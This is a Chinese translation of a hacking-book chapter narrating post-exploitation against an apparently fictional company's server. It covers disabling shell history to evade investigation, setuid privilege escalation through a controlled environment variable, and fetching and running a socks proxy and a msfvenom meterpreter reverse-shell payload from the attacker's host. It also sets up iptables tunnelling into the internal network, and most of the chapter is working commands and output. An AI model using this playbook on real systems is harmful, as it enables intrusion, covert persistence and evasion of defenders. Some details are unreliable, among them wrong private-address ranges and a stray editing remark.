

# 第三章、防火墙后面的世界

> 为什么当一个人建造一堵墙时，下一个人立刻需要知道另一边是什么？” -- *georges R.R. Martin*

利用SPH公司前端服务器上的一些漏洞，我们至少有一台服务器的控制权限了。[53]。我们现在在位于蓝色区域的服务器上拿到了一个shell。但是蓝色区域除了邮箱代理服务器，视频会议服务器和一些网站，没有任何我们正在寻找的数据。


蓝色区域只是我们通向绿色区域的入口。想一想。从互联网上我们是看不见绿色区域的（内部网络）;但是，通过蓝色区域，我们可以访问其中的一些服务器了。本章的目的是通过从Front Gun服务器通过蓝色区域，建立一个到绿色区域的可靠链接或隧道。

如果我们可以在途中拿下一两台服务器，那就更好了，但首先要做的事情是：我们正处在什么设备上？

## 3.1 知彼
无论是在Windows还是Linux上，首要工作就是收集所处环境的有效信息。但是，在执行任何命令之前，首先禁用 bash 的历史文件，避免我们的命令被记录下来。
```
www-data@CAREER$ unset HISTFILE
```

查看系统信息

```
www-data@CAREER$ uname -a
Linux CAREER 4.4.0-31-generic #50-Ubuntu SMP Wed Jul	13	00:06:14	UTC	2016	i686	i686	i686
GNY/Linux
www-data@CAREER$ cat /etc/passwd
[…]
redis:x:124:135::/var/lib/redis:/bin/false
redsocks:x:125:136::/var/run/redsocks:/bin/false rwhod:x:126:65534::/var/spool/rwho:/bin/false sslh:x:127:137::/nonexistent:/bin/false rtkit:x:128:138:RealtimeKit,,,:/proc:/bin/false saned:x:129:139::/var/lib/saned:/bin/false
usbmux:x:130:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
beef-xss:x:131:140::/var/lib/beef-xss:/bin/false
vboxadd:x:999:1::/var/run/vboxadd:/bin/false ftp:x:133:143:ftp daemon,,,:/srv/ftp:/bin/false
elasticsearch:x:134:144::/var/lib/elasticsearch:/bin/false debian-tor:x:135:145::/var/lib/tor:/bin/false mongodb:x:136:65534::/home/mongodb:/bin/false oinstall:x:1000:1001::/home/oinstall:/bin/sh oinstall2:x:1001:1002::/home/oinstall2:/bin/sh
[…]
```

看来我们位于一台Ubuntu服务器（使用32位架构）。当前用户是www- data，它通常对系统没有太多特权。

虽然系统上定义了许多用户，但只有我们的会话当前在计算机上处于活动状态：
```
www-data@CAREER:$ w
19:01:10 up 14:51,	1 user,	load average: 0.00, 0.00, 0.00
USER	TTY	FROM	LOGIN@	IDLE	JCPU  PCPU WHAT
www-data tty1 Thu19 0.00s 1:47 0.00s /bin/bash

```
检查网络配置，可以看到我们正位于 192.168.1.0/24 网段：
```
www-data@CAREER:$ ifconfig
eth1		Link encap:Ethernet HWaddr 08:00:27:7d:a6:c0 
            inet addr:192.168.1.46 Bcast:192.168.1.253 Mask:255.255.255.0
            inet6 addr: fe80::a00:27ff:fe7d:a6c0/64 
Scope:Link
            UP BROADCAST RUNNING MULTICAST
            MTU:1500 Metric:1
            RX packets:158729 errors:0 dropped:501 overruns:0 frame:0
            TX packets:1626 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000
            RX bytes:18292132 (17.4 MiB) TX bytes:225556 (220.2 KiB)
```


最后，服务器没有启用本地防火墙规则，不会对我们后面要用到的数据传输技术造成影响：
```
www-data@CAREER:$ iptables -L 
Chain INPUT (policy ACCEPT)
target	prot opt source	destination

Chain FORWARD (policy ACCEPT)
target	prot opt source	destination

Chain OUTPUT (policy ACCEPT)
target	prot opt source destination
```

> 提示：请记住，我们可以使用更高级的反向shell（例如meterpreter）通过模块来自动执行这些检查。本地工具和命令清单可以在这里获取：[54]

## 3.2 第一个倒下的
有些人可能认为在拿下的第一台服务器上获取管理员权限不是必须的。其实也对，如果我们仅仅需要建立与内部网络区域的隧道的话，拿到普通权限就已经足够了。但是，如果我们想擦除审计日志、欺骗管理员、或者安装新工具，拥有管理员权限显然会更加方便。

有时候，如果运气好的话，用来获取shell的漏洞组件本身就以最高权限在运行，在这种情况下，啥都不用做，可以直接调到下一节了。

一个典型的例子，运行DBA账户的MSSQL服务器存在SQL注入漏洞。所有通过**xp_commandshell**执行的命令，都具备系统最高权限，也就没必要使用接下来介绍的这些技术了。不管怎样，我们还是聚焦在已经拿下的这台Linux服务器吧。

提权和 **setuid** 文件也不是每次都能碰到，但在linux的世界里，他们是一对完美组合。这是每一位黑客或者渗透测试人员攻击 Linux 服务器的第一反应。

在Linux发行版中，所有文件都有一个特殊属性"s"，称为 setuid 位。这允许任意用户通过文件所有者的权限来执行该文件。例如，root账号创建了一个用来删除某些重要文件导额脚本，通过对该文件添加 setuid 位，其他任何用户执行该脚本都会以root用户的权限来执行删除命令。

记住，一旦我们修改了 **setuid** 脚本，它就不再具备该能力。 我们正在寻找的，就是一个使用了未严格过滤命令的 **setuid** 脚本，用以操作环境变量，执行其他二进制文件 -- 有时我们可以控制和提权，从而欺骗它来执行我们自己的代码。

首先，通过下面的命令列出所有 **setuid** 文件：
```
CAREER$>find / -type f \( -perm -04000 -o -perm -02000 \) \-exec ls -l {} \;
r-sr-sr-x 1 oinstall adm 9 Dec 18 14:11 /app/product/def_policy
[…]
```
找到了 **def_policy** 文件。任意用户都可以用 **oinstall**账户的权限来执行该文件。也许该用户不具备root权限，但我们毕竟向前了一步。

对 **def_policy** 文件执行strings命令，查找程序中硬编码的数据：
```
www-data@career$ strings /app/product/def_policy
/lib/ld-linux.so.2
____gmon_start____
libc.so.6
setuid
exit
sprint
strnlen
malloc
system
strsep
strcmp
____libc_start_main
GLIBC_2.0 
ADMIN_PATH
%s/install.sh
```
看起来，**def_policy**程序只是一个简单的打包程序，用来执行 install.sh 脚本。'%s' 格式字符串意味着 **install.sh** 脚本的路径是从变量中获取的……比如'ADMIN_PATH'？也许吧，但是看起来程序代码中没有任何路径。基本可以确定，是在会话级别的环境变量中定义了该路径值。

有趣的地方在于，每个用户控制了自己的环境变量。我们可以这样欺骗该程序去读取攻击者控制目录中的新 install.sh 脚本。这个新的“伪造”脚本会生成一个具有 oinstall 账户权限的 **bash** 会话。

```
www-data$> export ADMIN_PATH=/tmp/
www-data$> echo -e	"#\!bin/bash\n/bin/bash" > /tmp/install.sh
www-data$> /app/product/def_policy
oinstall$> id
uid=1501(oinstall) gid=2001(adm) groups=2001(adm) ,27(sudo)
```

很好！ **oinstall** 账号不仅仅是 **adm** 组用户，还是 **sudo** 组用户。这意味着它可以提权为 root 用户：
```
oinstall@CAREER:$ sudo su
root@CAREER#> id
uid=0(root) gid=0(root) groups=0(root)
```

干掉了一个……继续干。

> 迁出 linuxprivchecker 脚本：http://www.securitysift.com/download/linuxprivchecker.py，了解一些有趣的自动采集信息的技术。

> windows 平台也有类似的工具：https://github.com/pentestmonkey/windows-privesc- check

## 3.3 搭个梯子直达天堂
现在我们已经拿下了一台机器的 root 权限，接下来逛逛蓝色区域看还能发现点什么。因为大部分信息系统都是基于 Windows 系统的，最好是在公共 DMZ 区找到并拿下一台 Windows 机器。因此，我们可以重用后文一些机器的漏洞和密码。

为了更好的开展攻击，我们需要将常用的黑客工具（比如nmap、自己写的python脚本、Powershell Empire等）上传到刚才拿下的 Linux 机器上。如果这么操作的话，咋说呢？有点“脏”。日后被攻击方开展调查的时候，将发现我们放在服务器上的所有专用工具，通过分析这些文件能理解整个攻击过程。

这就是为啥我倾向于第二种方法的原因，这种方法更“干净”，也可以说更“性感”：建立虚拟隧道。对 Linux 机器进行配置，让它接收我们所有的数据包，并且直接转发到指定的目标地址。这个目标地址从互联网是无法访问的，因为是私有地址。


**私有地址**

设备在互联网上可以通过 IP 地址被访问。IPv4 由四个字节组成，通常用 X.X.X.X 表示， X 值介于 0 到 255。
有些 IP 地址被保留用于本地网络，不能用于互联网（RFC 1918）：

    127.0.0.1 表示本机
    172.16.0.0/16 (从 172.16.0.0 到 172.16.31.255)
    192.168.0.0/24 （从 192.168.0.0 到 192.168.255.255）
    10.0.0.0/8 （从 10.0.0.0 到 10.255.255.255）

如果路由器在公网接口看到了以上地址，将会直接丢弃这些数据包。


蓝色区域的服务器都位 192.168.1.0/24 网段。如果我们告诉 FrontGun 服务器向 192.168.1.56 发送一个数据包，互联网路由器显然会根据 RFC 1918 直接予以丢弃。

解决该问题的小技巧就是，告诉 Linux 服务器，将其公网IP接收到的所有来自于我们的 IP 数据包转发到 192.168.1.0/24 网段的其他机器。 事实上，这台 Linux 服务器就是一个工作在 TCP/IP 协议栈第三层的代理，也就是我们常说的 socks 代理。



### 3.3.1 Socks 代理

通过下面的链接，可以获得一个简单的 socks 代理实现代码。
```shell
frontGun$ wget https://raw.githubusercontent.com/mfontanini/Programs- Scripts/master/socks5/socks5.cpp
```
在编译之前，先将监听端口从 5555 改为一个不太明显的端口（比如 1521 端口），并对隧道连接设置账号密码。

```
40 #ifndef SERVER_PORT
41     #define SERVER_PORT 1521
42 #endif
43 #define MAXPENDING 200
44 #define BUF_SIZE 256
45 #ifndef USERNAME
46     #define USERNAME "username"
47 #endif
48 #ifndef PASSWORD
49     #define PASSWORD "password"
50 #endif

```


在 FrontGun 服务器上编译该文件，然后启动一个轻量级的 HTTP 服务，方便一会儿从 SPH 公司的 linux 服务器上下载该程序。

```shell
FrontGun$ g++ -o socks5 socks5.cpp -lpthread
FrontGun$ python -m SimpleHTTPServer 80
```
在 SPH 公司的服务器上，下载该程序，赋予可执行权限，然后运行：
```
root@CAREER:$ wget http://FRONTGUN_IP/socks5
root@CAREER:$ chmox +x socks5 && ./socks5
```
在实现的服务器上启动了 1521 端口。现在我们建立了一条隧道，正在等待连接。然而，这台 Linux 服务器看起来位于防火墙后面，禁止了对 1521 端口的入站连接。
```
FrontGun$ nc career.sph-assets.com 1521
(Connection timeout)
```
要想解决这个问题，我们在拿下的 Linux 服务器上创建两条本地规则，将所有来自我们 IP 的数据包都路由到 1521 端口：
```shell
root@CAREER# iptables -t nat -A PREROUTING -i eth2 -p tcp -s <IP_FrontGun>   --dport 80 -j DNAT --to-destination webserver02:1521
root@CAREER# iptables -t nat -A POSTROUTING -d webserver02 -o eth1 -j MASQUERADE
```
SPH 公司的这台 linux 服务器每次收到我们的 FrontGun 服务器 IP 发来的对 80 端口请求的数据包时，都会将其转发到 1521 端口。 Socks 代理将会解析我们的请求，然后根据我们的要求访问指定的内部服务器……干得漂亮！

剩下要做的就是让 FrontGun 服务器上的所有工具都使用刚才创建的这条隧道。幸运的是，并不需要重写服务器上的所有脚本。通过 Kali 自带的 Proxychains（以下译作“代理链”）工具就能处理解决该问题。像下面这样修改 /etc/proxychains.conf 配置文件：
```
[ProxyList]
61 # add proxy here ... 62 # meanwile
63 # defaults set to "tor"
64 #socks4	127.0.0.1 9050
65 socks5	career.sph-assets.com 80
```
如果想通过proxychains 运行 nmap，只需要在 FrontGun 服务器运行以下命令：
```
FrontGun$ proxychains nmap -sT 192.168.1.0/24
```


提示： -sT 参数会强制 nmap 发起连接式扫描。否则流量不会经过代理链。


### 3.3.2 Meterpreter
之前的 maneuver 依赖于 **iptables** 来创建本地转发规则，该工具仅适用于 root 用户。我们不可能一直都有这么高的权限，可能是因为时间不够、兴趣不够、或者缺少 exploit 等原因。

出于完整性考虑，跟之前介绍隧道一样，我们详细看看 metasploit 的特性。首先，为 Linux 平台生成一个 meterpreter 执行文件，然后在 FrontGun 服务器创建一个监听器。
```
FrontGun$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=FrontGun_IP LPORT=443 -f elf > package

FrontGun$ msfconsole
Msf> use exploit/multi/handler
Msf> set payload linux/x86/meterpreter/reverse_tcp Msf> set LHOST FRONTGUN_IP
Msf> set LPORT 443 Msf> run
```
接下来在 FrontGun 启动一个 HTTP 服务，从先前拿下的 Linux 服务器上下载该 meterpreter 文件并执行：
```
FrontGun$ python -m SimpleHTTPServer 80
# 以下在蓝区的 Linux 服务器执行
Career# wget http://FrontGun/package
Career# chmod +x package && ./package
```
很快，在 FrontGun 服务器的屏幕上就弹出了 meterpreter 会话。 通过该会话，不仅可以将命令转发到已经拿下的服务器，还可以发到 DMZ 区的所有服务器。

要实现这一点，只需要告诉 metasploit 的模块，将所有命令通过这个 meterpreter 会话发送，同时给这个会话号（本例中是1）增加一条路由：
```
meterpreter > (press Ctr+z) Background session 1? [y/N]
msf exploit(handler) > route add 192.168.1.0 255.255.255.0 1
[*] Route added
```
通过内部的 metasploit 扫描器快速测试一下，确认该路由工作正常：
```
msf exploit(handler) > use auxiliary/scanner/portscan/tcp 
msf auxiliary(tcp) > set PORTS 80
PORTS => 80
msf auxiliary(tcp) > set RHOSTS 192.168.1.46
RHOSTS => 192.168.1.46
msf auxiliary(tcp) > run

[*] 192.168.1.46:80 - TCP OPEN
[*] Auxiliary module execution completed
```
stop at P25

